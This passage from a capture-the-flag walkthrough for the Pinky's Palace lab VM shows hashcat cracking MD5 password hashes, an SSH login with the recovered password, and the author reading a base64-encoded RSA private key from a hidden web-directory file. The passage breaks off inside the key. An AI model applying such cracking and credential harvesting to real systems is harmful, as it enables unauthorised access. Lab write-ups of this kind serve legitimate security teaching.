 I saved the password hashes to a file, cracked them and got the password from the pinkymanage user.

```bash
root@kali:~$ echo -e "f543dbfeaf238729831a321c7a68bee4\nd60dffed7cc0d87e1f4a11aa06ca73af" > pinky.hashes


root@kali:~$ hashcat -a 0 -m 0 pinky.hashes rockyou.txt
...
d60dffed7cc0d87e1f4a11aa06ca73af:3pinkysaf33pinkysaf3 
```

I logged in via SSH as user **pinkymanage** with the password **3pinkysaf33pinkysaf3**.

```bash
root@kali:~$ ssh -l pinkymanage 192.168.179.160 -p 64666
pinkymanage@192.168.179.160's password: 
Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb  2 04:00:51 2018 from 127.0.0.1
pinkymanage@pinkys-palace:~$ id
uid=1001(pinkymanage) gid=1001(pinkymanage) groups=1001(pinkymanage)
```

In the web directory I found the **.ultrasecret** file with a base64 encoded private key.


```bash
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cat note.txt 
Hmm just in case I get locked out of my server I put this rsa key here.. Nobody will find it heh..

pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cat .ultrasecret 
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBMTZmeEwzLyto
L0lMVFpld2t2ZWtoSVExeWswb0xJK3kzTjRBSXRraGV6MTFJaGE4CkhjN0tPeC9MOWcyamQzSDhk
R1BVZktLcjlzZXF0Zzk3WktBOTVTL3NiNHczUXRsMUFCdS9wVktaQmJHR3NIRy8KeUl2R0VQS1Mr
QlNaNHN0TVc3SG54N2NpTXVod2Nad0xxWm1zeVN1bUVDVHVlUXN3TlBibElUbHJxb2xwWUY4eApl
NDdFbDlwSHdld05XY0lybXFyYXhDSDVUQzdVaGpnR2FRd21XM3FIeXJTcXAvaksvY3RiMVpwblB2
K0RDODMzCnUvVHlqbTZ6OFJhRFpHL2dSQklyTUduTmJnNHBaRmh0Z2JHVk9mN2ZlR3ZCRlI4QmlU
KzdWRmZPN3lFdnlCeDkKZ3hyeVN4dTJaMGFPTThRUjZNR2FETWpZVW5COWFUWXV3OEdQNHdJREFR
QUJBb0lCQUE2aUg3U0lhOTRQcDRLeApXMUx0cU9VeEQzRlZ3UGNkSFJidG5YYS80d3k0dzl6M1Mv
WjkxSzBrWURPbkEwT1VvWHZJVmwvS3JmNkYxK2lZCnJsZktvOGlNY3UreXhRRXRQa291bDllQS9r
OHJsNmNiWU5jYjNPbkRmQU9IYWxYQVU4TVpGRkF4OWdrY1NwejYKNkxPdWNOSUp1eS8zUVpOSEZo
TlIrWVJDb0RLbkZuRUlMeFlMNVd6MnFwdFdNWUR1d3RtR3pPOTY4WWJMck9WMQpva1dONmdNaUVp
NXFwckJoNWE4d0JSUVZhQnJMWVdnOFdlWGZXZmtHektveEtQRkt6aEk1ajQvRWt4TERKcXQzCkxB
N0pSeG1Gbjc3L21idmFEVzhXWlgwZk9jUzh1Z3lSQkVOMFZwZG5GNmtsNnRmT1hLR2owZ2QrZ0Fp
dzBUVlIKMkNCN1BzRUNnWUVBOElXM1pzS3RiQ2tSQnRGK1ZUQnE0SzQ2czdTaFc5QVo2K2JwYitk
MU5SVDV4UkpHK0RzegpGM2NnNE4rMzluWWc4bUZ3c0Jobi9zemdWQk5XWm91V3JSTnJERXhIMHl1
NkhPSjd6TFdRYXlVaFFKaUlQeHBjCm4vRWVkNlNyY3lTZnpnbW50T2liNGh5R2pGMC93bnRqTWM3
M3h1QVZOdU84QTZXVytoZ1ZIS0VDZ1lFQTVZaVcKSzJ2YlZOQnFFQkNQK3hyQzVkSE9CSUVXdjg5
QkZJbS9Gcy9lc2g4dUU1TG5qMTFlUCsxRVpoMkZLOTJReDlZdgp5MWJNc0FrZitwdEZVSkxjazFN
MjBlZkFhU3ZPaHI1dWFqbnlxQ29mc1NVZktaYWE3blBRb3plcHFNS1hHTW95Ck1FRWVMT3c1NnNK
aFNwMFVkWHlhejlGUUFtdnpTWFVudW8xdCtnTUNnWUVBdWJ4NDJXa0NwU0M5WGtlT3lGaGcKWUdz
TE45VUlPaTlrcFJBbk9seEIzYUQ2RkY0OTRkbE5aaFIvbGtnTTlzMVlPZlJYSWhWbTBaUUNzOHBQ
RVZkQQpIeDE4ci8yRUJhV2h6a1p6bGF5ci9xR29vUXBwUkZtbUozajZyeWZCb21RbzUrSDYyVEE3
bUl1d3Qxb1hMNmM2Ci9hNjNGcVBhbmcyVkZqZmNjL3IrNnFFQ2dZQStBenJmSEZLemhXTkNWOWN1
ZGpwMXNNdENPRVlYS0QxaStSd2gKWTZPODUrT2c4aTJSZEI1RWt5dkprdXdwdjhDZjNPUW93Wmlu
YnErdkcwZ016c0M5Sk54SXRaNHNTK09PVCtDdwozbHNLeCthc0MyVng3UGlLdDh1RWJVTnZEck9Y
eFBqdVJJbU1oWDNZU1EvVUFzQkdSWlhsMDUwVUttb2VUSUtoClNoaU9WUUtCZ1FEc1M0MWltQ3hX
Mm1lNTQxdnR3QWFJcFE1bG81T1Z6RDJBOXRlRVBzVTZGMmg2WDdwV1I2SVgKQTlycExXbWJmeEdn
SjBNVmh4Q2pwZVlnU0M4VXNkTXpOYTJBcGN3T1dRZWtORTRlTHRPN1p2MlNWRHI2Y0lyYwpIY2NF
UCtNR00yZVVmQlBua2FQa2JDUHI3dG5xUGY4ZUpxaVFVa1dWaDJDbll6ZUFIcjVPbUE9PQotLS0t
```
